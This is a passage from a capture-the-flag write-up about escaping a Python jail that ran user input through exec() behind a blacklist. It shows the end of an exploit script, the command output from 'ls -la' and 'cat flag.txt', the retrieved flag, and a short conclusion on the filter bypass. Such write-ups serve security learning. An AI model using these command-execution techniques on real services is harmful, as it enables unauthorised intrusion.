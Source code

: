 ```bash
            print("[*] Response received:")
            # Decode and print the relevant part of the response
            decoded_response = response.decode(errors='ignore')
            print(decoded_response)
            # Extract the flag (assuming it's the first line before the return code)
            flag = decoded_response.split('\n')[1] # The output starts with '>> ', then the flag, then the return code
            print(f"\n[*] Flag: {flag}")

    except socket.timeout:
        print(f"[-] Connection timed out to {HOST}:{PORT}")
    except socket.error as e:
        print(f"[-] Socket error: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```

3.  **Initial Exploration:** Ran the exploit with the command `ls -la`.
The output revealed the presence of `flag.txt` in the current directory:
    
	```bash
	>> total 32
    drwxr-xr-x 1 calc calc 4096 Mar 31 20:22 .
    drwxr-xr-x 1 root root 4096 Mar 31 20:01 ..
    -rw-r--r-- 1 calc calc  220 Apr 23  2023 .bash_logout
    -rw-r--r-- 1 calc calc 3526 Apr 23  2023 .bashrc
    -rw-r--r-- 1 calc calc  807 Apr 23  2023 .profile
    -rw-rw-r-- 1 root root   38 Mar 31 16:53 flag.txt
    -rw-rw-r-- 1 root root 1762 Mar 31 20:22 main.py
    0
    ```
    
    4.  **Flag Retrieval:** Modified the command in `exploit.py` to `cat flag.txt` and reran the script.
The service executed the command and returned its output, which included the flag:

    >> SK-CERT{35c3p1ng_py7h0n_15_345y_745k}
    0
    
    ## Retrieved Flag

The flag obtained from the service is:
```bash
**`SK-CERT{35c3p1ng_py7h0n_15_345y_745k}`**
```

## Conclusion

The vulnerability lies in the insecure use of `exec()` combined with an inadequate blacklist filter. By leveraging Python's built-in capabilities and character encoding, the filter was bypassed, allowing arbitrary command execution and retrieval of the flag.
